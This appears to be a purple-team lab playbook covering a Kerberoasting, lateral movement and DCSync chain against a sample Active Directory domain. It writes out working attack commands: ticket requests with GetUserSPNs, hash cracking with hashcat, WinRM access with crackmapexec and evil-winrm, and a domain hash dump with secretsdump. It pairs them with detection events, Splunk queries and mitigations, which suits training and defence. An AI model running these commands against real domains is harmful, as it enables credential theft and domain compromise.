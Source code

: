 # 01) Kerberoasting → Lateral Movement → DCSync
**ATT&CK:** T1558.003 (Kerberoasting), T1021 (Remote Services), T1003.006 (DCSync)  
**Scope:** Authorized lab/assessment only.

## Objective
Obtain a service account credential via Kerberos TGS request/analysis, use it for lateral movement, and (if misconfig permits) perform directory replication (DCSync).

## Environment (assumed)
- **Domain:** `DRAGONBALL.local`
- **DC:** `DC01` — **10.8.10.225**
- **Service host:** `SVC01` — **10.8.10.15**
- **Operator box:** `KALI` — **10.8.10.50**

## Procedure (High-Level)
1. Enumerate SPN-bearing accounts; request TGS as a standard domain user.  
2. Analyze TGS offline to recover weak service account credentials.  
3. Validate access; laterally move (e.g., WinRM/SMB) to `SVC01`.  
4. If group/ACL misconfig allows, attempt directory replication (DCSync) from `DC01`.

> **Legal/Ethical:** Commands below are documentation examples for **authorized** labs only.

## Doc-Only Command Examples (authorized lab)
```bash
# Enumerate SPNs + request TGS (example creds)
GetUserSPNs.py DRAGONBALL.local/john.doe:'Winter2025!' -dc-ip 10.8.10.225 -request | tee spns.out

# Offline key analysis (RC4/AES as applicable)
hashcat -m 13100 spns.out /wordlists/rockyou.txt

# Validate creds / lateral movement to SVC01 (WinRM)
crackmapexec winrm 10.8.10.15 -d DRAGONBALL.local -u svc-backup -p '<cracked>'
evil-winrm -i 10.8.10.15 -u svc-backup -p '<cracked>'

# Directory replication (if account/ACL permits)
secretsdump.py 'DRAGONBALL.local/svc-backup:<cracked>@10.8.10.225' -just-dc
```
## Telemetry to Collect
- Kerberos: 4768/4769/4771 (TGT/TGS/pre-auth anomalies)
- Logons: 4624 (Type 3/10) from new sources; 4625 bursts
- Service install: 7045 (PsExec-like behavior)
- Directory changes: 5136/5137 (group/ACL/GPO edits)
- Replication access: 4662 (Get-Changes / Get-Changes-All)
---
# SIEM Analytics (Splunk examples)
index=wineventlog (EventCode=4769)
| stats count by ServiceName, IpAddress
| where count>100
index=wineventlog EventCode=4662
| search AccessMask="*0x100*" OR AccessMask="*0x200*"
---

## Mitigations

- **Service accounts:** use **25+ char** random passwords; enforce **AES-only** (disable RC4).
- **SPN hygiene:** remove SPNs from **highly privileged** users.
- **Lateral controls:** limit **WinRM** to **jump hosts**; use **Windows LAPS** for local admins; follow a **tiered admin model (T0/T1/T2)**.
- **Monitoring:** alert on **5136/5137** for Tier-0 objects; monitor **4662** (replication activity).
- **Post-incident:** perform **KRBTGT double rotation**.
